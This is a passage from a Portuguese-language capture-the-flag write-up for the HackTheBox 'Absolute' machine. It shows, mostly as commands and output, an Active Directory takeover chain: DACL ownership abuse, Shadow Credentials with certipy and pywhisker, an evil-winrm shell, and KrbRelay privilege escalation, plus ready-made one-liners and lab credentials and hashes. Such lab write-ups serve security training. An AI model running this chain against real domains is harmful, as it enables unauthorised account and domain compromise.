> SMB         10.129.229.59   445    DC               NETLOGON        READ            Logon server share 
> SMB         10.129.229.59   445    DC               Shared          READ            
> SMB         10.129.229.59   445    DC               SYSVOL          READ            Logon server share
> ```

​	Para acessar o SMB, podemos utilizar o **impacket-smbclient** e ver o que existe nessa pasta.

```bash
┌──(kali㉿kali)-[~/…/machines/to-do/absolute/files]
└─$ KRB5CCNAME=svc_smb.ccache impacket-smbclient -no-pass -k 'absolute.htb/svc_smb'@dc.absolute.htb     
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Type help for list of commands
# shares
ADMIN$
C$
IPC$
NETLOGON
Shared
SYSVOL
# use shared
# ls
drw-rw-rw-          0  Thu Sep  1 14:02:23 2022 .
drw-rw-rw-          0  Thu Sep  1 14:02:23 2022 ..
-rw-rw-rw-         72  Thu Sep  1 14:02:23 2022 compiler.sh
-rw-rw-rw-      67584  Thu Sep  1 14:02:23 2022 test.exe
# mget *
[*] Downloading compiler.sh
[*] Downloading test.exe
# exit
```

​	Podemos passar o arquivo **test.exe** para uma máquina windows e utilizar o **wireshark** para ver o que esse arquivo gera de tráfego.

​	Ao fazer isso, conseguimos encontrar uma conexão **LDAP** com as credenciais `m.lovegod:AbsoluteLDAP2022!`.

### Shell as winrm_user

​	Com as credenciais do **m.lovegod**, podemos utilizar o **bloodhound-python** para enumerar o domínio. Para isso temos que gerar um ticket com o **impacket-getTGT** e depois utilizar o **bloodhound-python**.

```bash
┌──(kali㉿kali)-[~/…/to-do/absolute/files/bloodhoundfiles]
└─$ impacket-getTGT 'absolute.htb/m.lovegod:AbsoluteLDAP2022!' -dc-ip dc.absolute.htb
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Saving ticket in m.lovegod.ccache
                                                                                                                                                                                             
┌──(kali㉿kali)-[~/…/to-do/absolute/files/bloodhoundfiles]
└─$ KRB5CCNAME=m.lovegod.ccache bloodhound-python -u 'm.lovegod' -d absolute.htb --zip  -c All -no-pass -ns 10.129.229.59 -k -dc dc.absolute.htb
INFO: Found AD domain: absolute.htb
INFO: Using TGT from cache
INFO: Found TGT with correct principal in ccache file.
INFO: Connecting to LDAP server: dc.absolute.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc.absolute.htb
INFO: Found 18 users
INFO: Found 55 groups
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: dc.absolute.htb
INFO: Ignoring host dc.absolute.htb since its reported name  does not match
INFO: Done in 00M 12S
INFO: Compressing output into 20240131191422_bloodhound.zip
```

​	**OBS:** Caso dê algum erro no **bloodhound-python**, é necessário gerar o ticket novamente e logo em seguida executar o **bloodhound-python**.

​	Com as informacões coletadas, podemos observar algumas coisas:

1.  O usuário **m.lovegod** é integrante do grupo "**Networkers**"  que possui "**WriteOwner**" no grupo "**Network Audit"**.



> ​	Essa informacão pode ser obtida no seguinte local:



2. O grupo "**Network Audit**" possui "GenericWrite" no usuário "**winrm_user**"



> ​	Essa informacão pode ser obtida no seguinte local:
>



> ​	Também é possível encontrar todo esse caminho diretamente visualizando o seguinte atributo no usuário "**m.lovegod**":





​	Com o nosso caminho mapeado, podemos comecar nossa exploracão, para isso temos como referencia os seguintes links:

- [DACL Abuse](https://www.thehacker.recipes/ad/movement/dacl)
- [Undergrad CyberSec Notes - WriteOwner Exploit Explanation](https://zflemingg1.gitbook.io/undergrad-tutorials/active-directory-acl-abuse/writeowner-exploit)
- [Undergrad CyberSec Notes - GenericWrite Exploit Explanation](https://zflemingg1.gitbook.io/undergrad-tutorials/active-directory-acl-abuse/genericwrite-exploit)
- [The Hacker Recipes - Grant OwnerShip](https://www.thehacker.recipes/ad/movement/dacl/grant-ownership)
- [The Hacker Recipes - Grant Rights](https://www.thehacker.recipes/ad/movement/dacl/grant-rights)
- [The Hacker Recipes - AddMember](https://www.thehacker.recipes/ad/movement/dacl/addmember)
- [The Hacker Recipes - Shadow Credentials](https://www.thehacker.recipes/ad/movement/kerberos/shadow-credentials)
- [The Hacker Recipes - Pass The Certificate](https://www.thehacker.recipes/ad/movement/kerberos/pass-the-certificate)
- [Informacões - owneredit e dacledit](https://github.com/fortra/impacket/pull/1323)
- [Script - owneredit](https://github.com/ShutdownRepo/impacket/blob/owneredit/examples/owneredit.py)
- [Script - dacledit](https://github.com/ShutdownRepo/impacket/blob/dacledit/examples/dacledit.py)
- [Shadow Credentials - Explanation](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab) 
- [Shadow Credentials - Exploration (Certipy)](https://mayfly277.github.io/posts/GOADv2-pwning-part6/#shadow-credentials)
- [Pywhisker - Script](https://github.com/ShutdownRepo/pywhisker)
- [PKINITtools (gettgtpkinit) - Script](https://github.com/dirkjanm/PKINITtools)

#### Método Um - Certipy

​	Antes de comecarmos, devemos adiconar o IP da maquina no `/etc/resolv.conf` para evitar problemas de DNS mais pra frente.

```bash
┌──(root㉿kali)-[/home/…/machines/to-do/absolute/files]
└─# echo "nameserver 10.129.229.59" >> /etc/resolv.conf
```

​	Para comecarmos, primeiramente devemos utilizar o **owneredit** para tomarmos o controle do grupo "**Network Audit**". 

```bash
┌──(kali㉿kali)-[~/…/machines/to-do/absolute/files]
└─$ KRB5CCNAME=m.lovegod.ccache impacket-owneredit -k -no-pass 'absolute.htb/m.lovegod' -action write -target 'Network Audit' -new-owner 'm.lovegod' -dc-ip dc.absolute.htb
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Current owner information below
[*] - SID: S-1-5-21-4078382237-1492182817-2568127209-1109
[*] - sAMAccountName: m.lovegod
[*] - distinguishedName: CN=m.lovegod,CN=Users,DC=absolute,DC=htb
[*] OwnerSid modified successfully!
```

​	Agora podemos utilizar o **dacledit** para darmos controle total do grupo para o usuário **m.lovegod**.

```bash
┌──(kali㉿kali)-[~/…/machines/to-do/absolute/files]
└─$ KRB5CCNAME=m.lovegod.ccache impacket-dacledit -k -no-pass -principal 'm.lovegod' -target "Network Audit" -dc-ip dc.absolute.htb -action write -rights FullControl absolute.htb/
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] DACL backed up to dacledit-20240131-205750.bak
[*] DACL modified successfully!
```

​	Agora podemos utilizar o `net rpc` para adicionarmos nosso usuário **m.lovegod** ao grupo "**Network Audit**" já que temos permissões para fazer isso.

```bash
┌──(kali㉿kali)-[~/…/machines/to-do/absolute/files]
└─$ KRB5CCNAME=m.lovegod.ccache net rpc group addmem "Network Audit" -U 'm.lovegod' -S dc.absolute.htb m.lovegod -k
WARNING: The option -k|--kerberos is deprecated!
                                                                                                                                                                                             
┌──(kali㉿kali)-[~/…/machines/to-do/absolute/files]
└─$ KRB5CCNAME=m.lovegod.ccache net rpc group members "Network Audit" -S dc.absolute.htb -k
WARNING: The option -k|--kerberos is deprecated!
absolute\m.lovegod
absolute\svc_audit
```

​	Depois disso, precisamos gerar novamente um novo ticket usando o **impacket-getTGT** pois nele contera a informacão atualizada de que fazemos parte do grupo "**Network Audit**". Logo em seguida, executamos o ataque de Shadow Credentials utilizando o **certipy**.

```bash
┌──(kali㉿kali)-[~/…/machines/to-do/absolute/files]
└─$ impacket-getTGT 'absolute.htb/m.lovegod:AbsoluteLDAP2022!' -dc-ip dc.absolute.htb
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Saving ticket in m.lovegod.ccache                                                                                                                                                                                    
┌──(kali㉿kali)-[~/…/machines/to-do/absolute/files]
└─$ KRB5CCNAME=m.lovegod.ccache certipy shadow auto -k -no-pass -u 'm.lovegod@absolute.htb' -dc-ip 10.129.229.59 -account winrm_user -target dc.absolute.htb
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'winrm_user'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '3a5bd9dc-f15a-1df2-4828-aaf3c9eae7dc'
[*] Adding Key Credential with device ID '3a5bd9dc-f15a-1df2-4828-aaf3c9eae7dc' to the Key Credentials for 'winrm_user'
[*] Successfully added Key Credential with device ID '3a5bd9dc-f15a-1df2-4828-aaf3c9eae7dc' to the Key Credentials for 'winrm_user'
[*] Authenticating as 'winrm_user' with the certificate
[*] Using principal: winrm_user@absolute.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'winrm_user.ccache'
[*] Trying to retrieve NT hash for 'winrm_user'
[*] Restoring the old Key Credentials for 'winrm_user'
[*] Successfully restored the old Key Credentials for 'winrm_user'
[*] NT hash for 'winrm_user': 8738c7413a5da3bc1d083efc0ab06cb2
```

​	Para que a exploracão até aqui seja efetiva, podemos montar uma oneliner com os comandos, já que os mesmos tem que ser executados com rapidez. 

​	OBS: O parâmetro `-dc-ip` do **certipy** precisa conter um IP e, por isso, colocar "**dc.absolute.htb**" não funciona.

```bash
impacket-getTGT 'absolute.htb/m.lovegod:AbsoluteLDAP2022!' -dc-ip dc.absolute.htb && KRB5CCNAME=m.lovegod.ccache impacket-owneredit -k -no-pass 'absolute.htb/m.lovegod' -action write -target 'Network Audit' -new-owner 'm.lovegod' -dc-ip dc.absolute.htb && KRB5CCNAME=m.lovegod.ccache impacket-dacledit -k -no-pass -principal 'm.lovegod' -target "Network Audit" -dc-ip dc.absolute.htb -action write -rights FullControl absolute.htb/ && KRB5CCNAME=m.lovegod.ccache net rpc group addmem "Network Audit" -U 'm.lovegod' -S dc.absolute.htb m.lovegod -k && impacket-getTGT 'absolute.htb/m.lovegod:AbsoluteLDAP2022!' -dc-ip dc.absolute.htb && KRB5CCNAME=m.lovegod.ccache certipy shadow auto -k -no-pass -u 'm.lovegod@absolute.htb' -dc-ip 10.129.229.59 -account winrm_user -target dc.absolute.htb
```

​	Com o arquivo cache do usuário, podemos utilizar o **evil-winrm** para logar em uma shell.

```powershell
┌──(kali㉿kali)-[~/…/machines/to-do/absolute/files]
└─$ KRB5CCNAME=winrm_user.ccache evil-winrm -r absolute.htb -i dc.absolute.htb

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\winrm_user\Documents> whoami
absolute\winrm_user
*Evil-WinRM* PS C:\Users\winrm_user\Documents> cat ../desktop/user.txt
0a079c17cc0ddb4e445e062b229237fa
*Evil-WinRM* PS C:\Users\winrm_user\Documents>
```

#### Método Dois - PyWhisker e Gettgtpkinit

Antes de comecarmos, devemos adiconar o IP da maquina no `/etc/resolv.conf` para evitar problemas de DNS mais pra frente.

```bash
┌──(root㉿kali)-[/home/…/machines/to-do/absolute/files]
└─# echo "nameserver 10.129.229.59" >> /etc/resolv.conf
```

Para comecarmos, primeiramente devemos utilizar o **owneredit** para tomarmos o controle do grupo "**Network Audit**". 

```bash
┌──(kali㉿kali)-[~/…/machines/to-do/absolute/files]
└─$ KRB5CCNAME=m.lovegod.ccache impacket-owneredit -k -no-pass 'absolute.htb/m.lovegod' -action write -target 'Network Audit' -new-owner 'm.lovegod' -dc-ip dc.absolute.htb
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Current owner information below
[*] - SID: S-1-5-21-4078382237-1492182817-2568127209-1109
[*] - sAMAccountName: m.lovegod
[*] - distinguishedName: CN=m.lovegod,CN=Users,DC=absolute,DC=htb
[*] OwnerSid modified successfully!
```

​	Agora podemos utilizar o **dacledit** para darmos controle total do grupo para o usuário **m.lovegod**.

```bash
┌──(kali㉿kali)-[~/…/machines/to-do/absolute/files]
└─$ KRB5CCNAME=m.lovegod.ccache impacket-dacledit -k -no-pass -principal 'm.lovegod' -target "Network Audit" -dc-ip dc.absolute.htb -action write -rights FullControl absolute.htb/
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] DACL backed up to dacledit-20240131-205750.bak
[*] DACL modified successfully!
```

​	Agora podemos utilizar o `net rpc` para adicionarmos nosso usuário **m.lovegod** ao grupo "**Network Audit**" já que temos permissões para fazer isso.

```bash
┌──(kali㉿kali)-[~/…/machines/to-do/absolute/files]
└─$ KRB5CCNAME=m.lovegod.ccache net rpc group addmem "Network Audit" -U 'm.lovegod' -S dc.absolute.htb m.lovegod -k
WARNING: The option -k|--kerberos is deprecated!
                                                                                                                                                                                             
┌──(kali㉿kali)-[~/…/machines/to-do/absolute/files]
└─$ KRB5CCNAME=m.lovegod.ccache net rpc group members "Network Audit" -S dc.absolute.htb -k
WARNING: The option -k|--kerberos is deprecated!
absolute\m.lovegod
absolute\svc_audit
```

​	Depois disso, precisamos gerar novamente um novo ticket usando o **impacket-getTGT** pois nele conterá a informacão atualizada de que fazemos parte do grupo "**Network Audit**". Logo em seguida, executamos o ataque de Shadow Credentials utilizando o **pywhisker** para gerar o certificado em **pfx** e logo em seguida utilizamos o **gettgtpkinit** para requisitar o TGT (utilizando o certificado **pfx** gerado com o **pywhisker**) que será armazenado em um arquivo **ccache**.

```bash
┌──(kali㉿kali)-[~/…/machines/to-do/absolute/files]
└─$ impacket-getTGT 'absolute.htb/m.lovegod:AbsoluteLDAP2022!' -dc-ip dc.absolute.htb && KRB5CCNAME=m.lovegod.ccache python3 /opt/pywhisker/pywhisker.py -d absolute.htb --no-pass -k -u "m.lovegod" -t "winrm_user" --dc-ip dc.absolute.htb -a "add"
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Saving ticket in m.lovegod.ccache
[*] Searching for the target account
[*] Target user found: CN=winrm_user,CN=Users,DC=absolute,DC=htb
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: 7796db1d-5703-5aeb-fd9c-33d30327a6d0
[*] Updating the msDS-KeyCredentialLink attribute of winrm_user
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[+] Saved PFX (#PKCS12) certificate & key at path: TdTwu5BJ.pfx
[*] Must be used with password: 7ep7qkvbrHYPfFhFmNrV
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
```

​	Para que a exploracão até aqui seja efetiva, podemos montar uma oneliner com os comandos, já que os mesmos tem que ser executados com rapidez.

```bash
impacket-getTGT 'absolute.htb/m.lovegod:AbsoluteLDAP2022!' -dc-ip dc.absolute.htb && KRB5CCNAME=m.lovegod.ccache impacket-owneredit -k -no-pass 'absolute.htb/m.lovegod' -action write -target 'Network Audit' -new-owner 'm.lovegod' -dc-ip dc.absolute.htb && KRB5CCNAME=m.lovegod.ccache impacket-dacledit -k -no-pass -principal 'm.lovegod' -target "Network Audit" -dc-ip dc.absolute.htb -action write -rights FullControl absolute.htb/ && KRB5CCNAME=m.lovegod.ccache net rpc group addmem "Network Audit" -U 'm.lovegod' -S dc.absolute.htb m.lovegod -k && impacket-getTGT 'absolute.htb/m.lovegod:AbsoluteLDAP2022!' -dc-ip dc.absolute.htb && KRB5CCNAME=m.lovegod.ccache python3 /opt/pywhisker/pywhisker.py -d absolute.htb --no-pass -k -u "m.lovegod" -t "winrm_user" --dc-ip dc.absolute.htb -a "add"
```

​	Gerado o arquivo **pfx**, utilizamos o **gettgtpkinit** para requisitar o TGT que será armazenado em um arquivo **ccache**.

```bash
┌──(kali㉿kali)-[~/…/machines/to-do/absolute/files]
└─$ KRB5CCNAME=m.lovegod.ccache python3 /opt/PKINITtools/gettgtpkinit.py absolute.htb/winrm_user -cert-pfx TdTwu5BJ.pfx -pfx-pass "7ep7qkvbrHYPfFhFmNrV" winrm_user.ccache
2024-02-12 19:06:04,654 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2024-02-12 19:06:04,666 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2024-02-12 19:06:04,992 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2024-02-12 19:06:04,992 minikerberos INFO     151f447db54c1feec8d83a89e8c6392f4c75f838e4bdc86e2623526bcea2dac4
INFO:minikerberos:151f447db54c1feec8d83a89e8c6392f4c75f838e4bdc86e2623526bcea2dac4
2024-02-12 19:06:04,994 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file
```

​	Com o arquivo cache do usuário, podemos utilizar o **evil-winrm** para logar em uma shell.

```powershell
┌──(kali㉿kali)-[~/…/machines/to-do/absolute/files]
└─$ KRB5CCNAME=winrm_user.ccache evil-winrm -r absolute.htb -i dc.absolute.htb

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\winrm_user\Documents> whoami
absolute\winrm_user
*Evil-WinRM* PS C:\Users\winrm_user\Documents>
```

## Privilege Escalation

​	O privesc dessa máquina é uma vulnerabilidade de KrbRelay que pode ser identificada com o **winpeas**



​	OBS: Só foi utilizado o método do **KrbRelay**, porém, é possível explorar utilizando o **KrbRelayUp** igual é utilizado [aqui](https://www.fo-sec.com/writeups/absolute#privilege-escalation).	

​	Com o nosso caminho mapeado, podemos comecar nossa exploracão, para isso temos como referencia os seguintes links:

- [KrbRelay - Script](https://github.com/cube0x0/KrbRelay)
- [RunasCs - Script](https://github.com/antonioCoco/RunasCs)
- [SharpCollection - Scripts](https://github.com/Flangvik/SharpCollection/tree/master/NetFramework_4.7_Any)
- [JuicyPotato - CLSID](https://github.com/ohpe/juicy-potato/tree/master/CLSID)
- [Microsoft Logon Types](https://learn.microsoft.com/en-us/windows-server/identity/securing-privileged-access/reference-tools-logon-types)

​	Para fazer a exploracao, podemos utilizar o **krbrelay** e ver o que recebemos de resposta, para isso, usaremos o comando **-add-groupmember** que está como exemplo no **[Readme](https://github.com/cube0x0/KrbRelay?tab=readme-ov-file#examples)**. Só alteraremos o domínio ldap para o da máquina (**dc.absolute.htb**) e o grupo que desejamos adicionar nosso usuário (**Domain Admins**).

```powershell
*Evil-WinRM* PS C:\Users\winrm_user\Documents> .\KrbRelay.exe -spn ldap/dc.absolute.htb -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -add-groupmember "Domain Admins" winrm_user
[-] Session 2 does not exists
```

​	Podemos ver que o executável estã dando erro de sessão. Podemos remover a opcão **-session** e ver o que temos como resposta.

```powershell
*Evil-WinRM* PS C:\Users\winrm_user\Documents> .\KrbRelay.exe -spn ldap/dc.absolute.htb -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -add-groupmember "Domain Admins" winrm_user
[*] Relaying context: absolute.htb\DC$
[*] Rewriting function table
[*] Rewriting PEB
[*] GetModuleFileName: System
[*] Init com server
[*] GetModuleFileName: C:\Users\winrm_user\Documents\KrbRelay.exe
[*] Register com server
objref:TUVPVwEAAAAAAAAAAAAAAMAAAAAAAABGgQIAAAAAAAAiUdAfNZFPgoCp3qTy5cBhAigAAHgO//9duVP5wiHwDCIADAAHADEAMgA3AC4AMAAuADAALgAxAAAAAAAJAP//AAAeAP//AAAQAP//AAAKAP//AAAWAP//AAAfAP//AAAOAP//AAAAAA==:

[*] Forcing SYSTEM authentication
[*] Using CLSID: 354ff91b-5e49-4bdc-a8e6-1cb6c6877182
System.Runtime.InteropServices.COMException (0x8000401A): The server process could not be started because the configured identity is incorrect. Check the username and password. (Exception from HRESULT: 0x8000401A)
   at KrbRelay.Ole32.CoGetInstanceFromIStorage(COSERVERINFO pServerInfo, Guid& pclsid, Object pUnkOuter, CLSCTX dwClsCtx, IStorage pstg, UInt32 cmq, MULTI_QI[] rgmqResults)
   at KrbRelay.Program.Main(String[] args)
*Evil-WinRM* PS C:\Users\winrm_user\Documents>
```

​	Podemos ver que agora que o executável está dando erro de de credenciais. Esse erro pode estar relacionado a nossa shell do winrm, que não armazenas as credenciais na sessão. Para isso podemos utilizar o uma tool chamada **RunasCs** que é uma ttol aberta e melhorada do utilitário **RunAs** do Windows.

​	Para a execucao, usaremos as credenciais do usuário **m.lovegod**.

```powershell
*Evil-WinRM* PS C:\Users\winrm_user\Documents> ./_RunasCs.exe m.lovegod -d absolute.htb 'AbsoluteLDAP2022!' ".\KrbRelay.exe -spn ldap/dc.absolute.htb -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -add-groupmember "Domain Admins" winrm_user"
[-] RunasCsException: Selected logon type '2' is not granted to the user 'm.lovegod'. Use available logon type '3'.
```

​	Podemos ver que agora o erro é referente ao tipo de logon. Após uma pesquisa, podemos encontrar o seguinte [link](https://learn.microsoft.com/en-us/windows-server/identity/securing-privileged-access/reference-tools-logon-types) que nos mostra sobre os tipos de logon type. O que deu certo para esta exploracao foi o tipo **9**.

```powershell
*Evil-WinRM* PS C:\Users\winrm_user\Documents> ./_RunasCs.exe m.lovegod -d absolute.htb 'AbsoluteLDAP2022!' -l 9 ".\KrbRelay.exe -spn ldap/dc.absolute.htb -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -add-groupmember "Domain Admins" winrm_user"

[-] -add-groupmember requires two arguments
```

​	Agora o erro é referente ao **-add-groupmember**. Depois de umm tempo foi percebido que o erro era um grupo com nome composto dentro de aspas, então para contornar isso, podemos usar o grupo **Administrators**.

```powershell
*Evil-WinRM* PS C:\Users\winrm_user\Documents> ./_RunasCs.exe m.lovegod 'AbsoluteLDAP2022!' -d absolute.htb -l 9 ".\KrbRelay.exe -spn ldap/dc.absolute.htb -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -add-groupmember administrators winrm_user"

[*] Relaying context: absolute.htb\DC$
[*] Rewriting function table
[*] Rewriting PEB
[*] GetModuleFileName: System
[*] Init com server
[*] GetModuleFileName: C:\Users\winrm_user\Documents\KrbRelay.exe
[*] Register com server
objref:TUVPVwEAAAAAAAAAAAAAAMAAAAAAAABGgQIAAAAAAAC0EGz4bgoKd0VhYBL88oLOAiAAAPwX//8ZZtNZJvHZ6SIADAAHADEAMgA3AC4AMAAuADAALgAxAAAAAAAJAP//AAAeAP//AAAQAP//AAAKAP//AAAWAP//AAAfAP//AAAOAP//AAAAAA==:

[*] Forcing SYSTEM authentication
[*] Using CLSID: 354ff91b-5e49-4bdc-a8e6-1cb6c6877182
System.Runtime.InteropServices.COMException (0x8000401A): The server process could not be started because the configured identity is incorrect. Check the username and password. (Exception from HRESULT: 0x8000401A)
   at KrbRelay.Ole32.CoGetInstanceFromIStorage(COSERVERINFO pServerInfo, Guid& pclsid, Object pUnkOuter, CLSCTX dwClsCtx, IStorage pstg, UInt32 cmq, MULTI_QI[] rgmqResults)
   at KrbRelay.Program.Main(String[] args)
*Evil-WinRM* PS C:\Users\winrm_user\Documents>
```

​	Ainda continuamos recebendo erro de credenciais. Depois de um tempo, descobri que esse erro também era pertinente ao **CLSID**, para isso, podemos usar como referencia a lista que pode ser encontrada no **[JuicyPotato](https://github.com/ohpe/juicy-potato/tree/master/CLSID)**. Para isso podemos usar o **CLSID** do **TrustedInstaller**.

​	OBS: Os CLSID que testei foram do **Windows 10 Professional** e do **Windows Server 2016** e ambos funcionaram.

```powershell
*Evil-WinRM* PS C:\Users\winrm_user\Documents> ./_RunasCs.exe m.lovegod 'AbsoluteLDAP2022!' -d absolute.htb -l 9 ".\KrbRelay.exe -spn ldap/dc.absolute.htb -clsid 752073A1-23F2-4396-85F0-8FDB879ED0ED -add-groupmember administrators winrm_user"

[*] Relaying context: absolute.htb\DC$
[*] Rewriting function table
[*] Rewriting PEB
[*] GetModuleFileName: System
[*] Init com server
[*] GetModuleFileName: C:\Users\winrm_user\Documents\KrbRelay.exe
[*] Register com server
objref:TUVPVwEAAAAAAAAAAAAAAMAAAAAAAABGgQIAAAAAAABvnyPSRey5hUDHqCzKVREBAkgAABAX///fiJ6+bEYTtyIADAAHADEAMgA3AC4AMAAuADAALgAxAAAAAAAJAP//AAAeAP//AAAQAP//AAAKAP//AAAWAP//AAAfAP//AAAOAP//AAAAAA==:

[*] Forcing SYSTEM authentication
[*] Using CLSID: 752073a1-23f2-4396-85f0-8fdb879ed0ed
[*] apReq: 608206b406092a864886f71201020201006e8206a33082069fa003020105a10302010ea20703050020000000a38204e1618204dd308204d9a003020105a10e1b0c4142534f4c5554452e485442a2223020a003020102a11930171b046c6461701b0f64632e6162736f6c7574652e687462a382049c30820498a003020112a103020104a282048a04820486bd03a641ba01866d97b30ea5b757fe79d78bae2ef904e783330983871dae9204078037abe147e89e43c6b4278c1f7b0e6af914c7c00407ec9b1469a017181abee2f380e873041ddd56fa371c29c49491a479f117a7e2950508f6e1fcd4a7480df43455424e27910126fe69ce5d7e1bb7d025b0b55b5d49dc526255e9a30876dd9fdafe000b28d535434b899f9b99f244cffd083f248e95faf39351376dda0f4a6a54532ebd2273c1f97749d27fc4a90adae5fb82ac40c73e0aa5c33f4d3aca07b61c37edf5b48565d25df30f5014be2e9bc143f0d5bbded1ace16ea402a3b8297e126f0d6aeb98753ed1eee097b5238b409f4ab3daa2952fb50c59b6a0d967d44c9ce4f182bbc5c91b11aedcba2b3eb9ffb1e149dd1c0fd7298e4b343c0f9f17d053d2331ae8212d44b8c3d620dc06763b894ca72d5bc76a886cfcf31ac88151142f0492bb3edeffe786b97d4baf3c2645d848016c853f5a2446a2f04e85808f8f9945a1cecb61c5beb3d15cf21ca671d2c45dd8a90b5ec595ec7cb32c177759452023480281a870d1d39019b12eab810560108d682754a1298731e200323ce0def6592b03a36f420823cbd6414745ca8fc71179001e889832e832824d3b2b02e1c3931c6ce74e179939fdbbe68b899f1e54cbcf48c88b8cc4f28229872b0e67f003f1663351e7bdbac6c8f8fbeacdd51303d91c552facb64c0d0dbc75f3df6eb767c9ada80e6a92724dca248575a43b161bfbd650ace42773f374eeaa333483f3e8f60b096d6809946fb56616a3f5bbecc61833dc434ee1716be9ac3a1da1f1562dcf052e081496f201748b73972dcf87039d31405dffb8960d24b70a9729a69fb2652d7f3a57f52269ed51e0e8c3329149726698daad7e91e506bd80b6227f59244ab5e583d227fc0a64cf88edf40396327198366ad7b2d38899cdf50a5260b4545188b72e3ed295674831c62a07166f5f15a6a4eff0bc27219015af35dc125ad6539cb2e6eedb43b11bb97e967a644ad42dca66fad6439ea96621001fa9d0e093fae442528ffdd900e0fbfe5251f2bda6ed64b81a3540249f03f67eddd8994bb5425041d0c2752312087cd7012d5c2eae0c004574944327ed6a0483dd923894f5daf0f5ad98a26b9ba7b79649ca4ee1e7d31df330e692836c2ef4ff2799a950eee1766c7866e7cebf1691d2d42ee1d8c7ac4a5249f15d86e8b0c0c2a48dbf36bf4d184d0931f20357dacd92fbdec79992a72f3367a0bdacf848719507e2c330653c3c349f92fb6a8d258b57dc6d571f1675650c1ea463a5b3c41f8568e45e70ccd508bfcc8126ca8c99e28dcbd0e1dae652330d77f67d776346fd313f18266b504235cc7a037a7d5c0603dc74e03b7c930c962999e5b68aafca52ff3118839ea1245a515ce8c6ccbed204d56b043e962c2d91c9bcfbec912fffa98e9f115ce940718e0d30546ed8315cb224e4cd8e27fc339df0203b2a67fa53a43aad716c56fd11d65621fd5f153f7c6f639cbceb50602b82c3ecb3ea3cd60b40112df38c7ece5d938ab24566dc6e7083bf0c5bd4b905a02fa520b21e6ee523151ae82602663b0c59c06993e076d4882c1a8f47e08eb5bfab01345c9e205e3669d65e2844555ff9c760cfa48201a33082019fa003020112a282019604820192806885916fa0415ae020631252d5d961853dabe237c7afae47f1d3206d830e3a0f35c8bed0791d33f07471ac62706dfdbba9b1f62e65f20d530523d6648166e3bdfe9bc77dfacabc9db4c9b5293fcd18de2179ce90fa6208e6fc102ed614183605f23572bdc62b3b4d7f40bc99e69f38496552af857b15140ceb3c983d76e0f2b0f335aec98e39003af248a7f49028a7e9cda0b0df8f7778663c55e618b4039b7824029d7d02f98678018f0b7f4678c9fffc6445cd1eb1d73e0156fa836d010a1e7260ac7ffd994851fe6a11c30fad5d2435e29f351322ef0982ba37b5aba2b5081992035a8912a603d48d7e43d2a1db5d88f042aab8ca03f32b1d4bef523fa7193d859b55c65ad4dec84e87ad23f527ee5e2181da8b73580d4aeba36d5bdc49e7edc67ec939edb611673abf78be39bd3e0d3898bb309b6d7bb7055087cd6161c0cf23daa2ce403011c50a79905c79fd24eec4d2861afd0f2d92cb465d9c69f7d86f9d8a1a15cb63d7c55ab2dc48be8b238b7144d7e98ac8484a51307ba0d39eabe649b0bbb3f8cc9b8b7407cf2865340d28
[*] bind: 0
[*] ldap_get_option: LDAP_SASL_BIND_IN_PROGRESS
[*] apRep1: 6f8188308185a003020105a10302010fa2793077a003020112a270046ee81a01b31e70e9a3e8599df19d9252f0b4e9a49b7c32b1b9fec5d20d6d45cdb4b141596af2b3221d677b3716f018d784881fb99dbc9786d87c53d19114bc14005c828586482bba0a94957f7ab166d139bc7dd137a1dd4bd4adc5df57544165ad954f3d076c09e8e2caf2b80ad98f
[*] AcceptSecurityContext: SEC_I_CONTINUE_NEEDED
[*] fContextReq: Delegate, MutualAuth, UseDceStyle, Connection
[*] apRep2: 6f5b3059a003020105a10302010fa24d304ba003020112a244044279c48fe9d38e543b1fce16f3285422ae5b38a31c7ebf66326d053297da83eaef0f218ca19d36dfff630f3e6b847e06f6daa4a7ca8934085ecc8d4aacf4e79dbde526
[*] bind: 0
[*] ldap_get_option: LDAP_SUCCESS
[+] LDAP session established
[*] ldap_modify: LDAP_SUCCESS

*Evil-WinRM* PS C:\Users\Administrator\Desktop> net user winrm_user
User name                    winrm_user
Full Name
Comment                      Used to perform simple network tasks
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            6/9/2022 12:25:51 AM
Password expires             Never
